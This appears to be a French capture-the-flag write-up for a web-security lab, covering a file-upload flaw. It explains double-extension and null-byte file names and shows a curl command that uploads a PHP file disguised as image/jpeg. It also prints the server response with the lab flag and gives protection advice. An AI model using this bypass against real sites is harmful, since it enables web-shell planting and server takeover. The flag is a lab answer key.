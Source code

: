 # Faille upload

Cette faille est très dangereuse car un utilisateur malintentionné pourrait prendre le contrôle du site ou le serveur.

Quand on fait un formulaire avec un input de type file, on peut avoir principalement deux failles différentes :

* Faille avec double extension : même si on limite le type de fichier en vérifiant l'extension, un utilisateur pourrait charger sur le serveur une image appelée `backdoor.php.jpg` ou bien `backdoor.php\0.jpg`.
Le `\0` indique le fin de la chaine et il pourrait être enregistré comme backdoor.php.

* Faille sur la vérification du type MIME : c'est la faille que l'on peut exploiter sur darkly.
Le type MIME d’un fichier désigne le type de contenu dont est composé un fichier, mais il est possible de faire une requete en spécifiant le type `image/jpeg` quand on envoi un fichier `.php`.

## Le flag

Pour avoir le flag on peut utiliser l'application postman ou cURL.

On inspecte le formulaire et on voit qu'il y a deux input qui seront envoyés, `uploaded` qui correspond à l'image et `submit` pour le button.

```html
<form enctype="multipart/form-data" action="#" method="POST">

	<input type="hidden" name="MAX_FILE_SIZE" value="100000">
	Choose an image to upload:
	<br>
	<input name="uploaded" type="file"><br>
	<br>
	<input type="submit" name="Upload" value="Upload">

</form>
```

On peut alors utiliser curl avec les deux inputs envoyés mais en spécifiant le `type=image/jpeg` pour le fichier `.php`.

```shell script
curl -X POST 'http://10.2.8.38/?page=upload' -F 'uploaded=@/Users/lgarcia-/test.php;type=image/jpeg' -F 'Upload=Upload'
```

Sur la réponse du serveur on pourra voir le flag.

```html
<!DOCTYPE HTML>
<html>
[...]
    <!-- Main -->
    <section id="main" class="wrapper">
        <div class="container" style="margin-top:75px">
            <pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/test.php succesfully uploaded.</pre>
            [...]

</html>
```

## Comment s'en proteger ?

Il ne faut pas se fier des extensions et vérifier qu'il n'y a pas `.php` sur l'extension.
On peut aussi vérifier le type MIME mais ne peut pas être la seul vérification.

Il faut renomer le fichier avec un nom aléatoire pour éviter qu'il soit écrasé et vérifier la taille de celui-ci.
Il est important aussi d'assigner les bonnes permissions au répertoire.